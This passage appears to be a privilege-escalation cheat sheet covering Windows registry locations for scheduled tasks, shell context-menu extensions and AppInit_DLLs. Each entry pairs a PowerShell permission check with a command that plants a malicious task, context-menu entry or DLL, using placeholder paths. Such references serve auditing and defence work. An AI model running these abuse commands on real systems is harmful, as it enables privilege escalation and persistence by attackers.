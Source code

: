 #### Scheduled Tasks (Abusing Weak Permissions)
   - Registry Path:
     - `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\`
   - Purpose: Stores configuration for Windows Scheduled Tasks.
   - Abuse: If non-admin users have write permissions, they can modify existing tasks or create new tasks that execute with SYSTEM privileges.

   PowerShell Example to Check Permissions:
   ```powershell
   Get-Acl -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree" | Format-List
   ```

   PowerShell Example to Create/Modify Task:
   ```powershell
   schtasks /create /tn "MaliciousTask" /tr "C:\path\to\malicious.exe" /sc onlogon /ru SYSTEM
   ```

#### Shell Extensions (Hijacking for Privilege Escalation)
   - Registry Path:
     - `HKLM\Software\Classes\*\shell`
     - `HKLM\Software\Classes\Directory\shell`
     - `HKCU\Software\Classes\*\shell`
     - `HKCU\Software\Classes\Directory\shell`
   - Purpose: Allows programs to be run via shell context menus.
   - Abuse: If these keys are writable, an attacker can add entries to the context menu that execute arbitrary code with elevated privileges.

   PowerShell Example to Check Permissions:
   ```powershell
   Get-Acl -Path "HKLM:\Software\Classes\*\shell" | Format-List
   Get-Acl -Path "HKCU:\Software\Classes\*\shell" | Format-List
   ```

   PowerShell Example to Add Malicious Entry:
   ```powershell
   New-Item -Path "HKCU:\Software\Classes\*\shell\OpenMalicious" -Force
   Set-ItemProperty -Path "HKCU:\Software\Classes\*\shell\OpenMalicious" -Name "command" -Value "C:\path\to\malicious.exe"
   ```

#### AppInit_DLLs (DLL Hijacking)
   - Registry Path:
     - `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows\AppInit_DLLs`
   - Purpose: Specifies DLLs that are loaded by user-mode processes at startup.
   - Abuse: By adding a malicious DLL to this key, an attacker can ensure the DLL is loaded into any process that starts on the system, potentially with SYSTEM privileges.

   PowerShell Example to Check Values:
   ```powershell
   Get-ItemProperty -Path "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Windows" -Name "AppInit_DLLs"
   ```

   PowerShell Example to Add Malicious DLL:
   ```powershell
   Set-ItemProperty -Path "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Windows" -Name "AppInit_DLLs" -Value "C:\path\to\malicious.dll"
   ```
